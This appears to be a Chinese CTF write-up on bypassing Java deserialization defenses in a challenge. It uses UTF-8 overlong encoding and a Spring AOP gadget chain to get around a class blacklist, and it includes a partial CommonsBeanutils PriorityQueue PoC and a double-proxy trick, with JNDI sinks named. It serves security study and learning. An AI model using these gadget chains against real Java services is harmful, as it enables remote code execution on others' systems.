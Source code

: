 ## 解决思考

### 第一步

对于第一层防御，我们可以很简单的绕过，对此我有以下两种绕过方式

- UTF8OverlongEncoding
- 不使用存在这些字符串的类(com.sun,naming,jdk.jfr)

这个很简单，就不多说了

第二层的resolveClass,我们只能选择不使用blacklist上面的类来达到攻击目的，经过我的排查，我手里刚好就有这么一段链子任何关键类都不在blacklist中，那就是springaop链

简单小引-> https://gsbp0.github.io/post/springaop/



在我上面的文章中，我最后是用的toString来触发aop动态代理的invoke方法，不过我在文章提到过,只要不是`equals,hashcode`这俩方法触发invoke,其他都是可以走完整条反序列化链

我在比赛过程中由题目中存在的User类的`compare`方法受到启发，选择了CC2和CB中都用到的`PriorityQueue`那一段来触发compare

下面是cb的部分poc

```
        BeanComparator CB=new BeanComparator();
        CB.setProperty("outputProperties");
        PriorityQueue PQ=new PriorityQueue(1);
        PQ.add(1);
        PQ.add(2);

        reflectSet(PQ,"comparator",CB);
        reflectSet(PQ,"queue",new Object[]{TPI,TPI});
```



ok，那直接拼到aop链的后面看看情况

结果触发了报错

```
Exception in thread "main" java.lang.IllegalArgumentException: Can not set final java.util.Comparator field java.util.PriorityQueue.comparator to com.sun.proxy.$Proxy3
	at sun.reflect.UnsafeFieldAccessorImpl.throwSetIllegalArgumentException(UnsafeFieldAccessorImpl.java:167)
	at sun.reflect.UnsafeFieldAccessorImpl.throwSetIllegalArgumentException(UnsafeFieldAccessorImpl.java:171)
	at sun.reflect.UnsafeQualifiedObjectFieldAccessorImpl.set(UnsafeQualifiedObjectFieldAccessorImpl.java:83)
	at java.lang.reflect.Field.set(Field.java:764)
	at Utils.Util.setFieldValue(Util.java:38)
	at Test.main(Test.java:30)
```

因为我们的proxy类没有实现`comparator`接口，那这里我们可以通过在外面**再次**包一层代理，且代理comparator接口即可

至于触发类，我们可以选择`LdapAttribute`这么一个jndi注入类，也可以选择`JdbcRowSetImpl`，不过需要utf8overlong麻烦一点
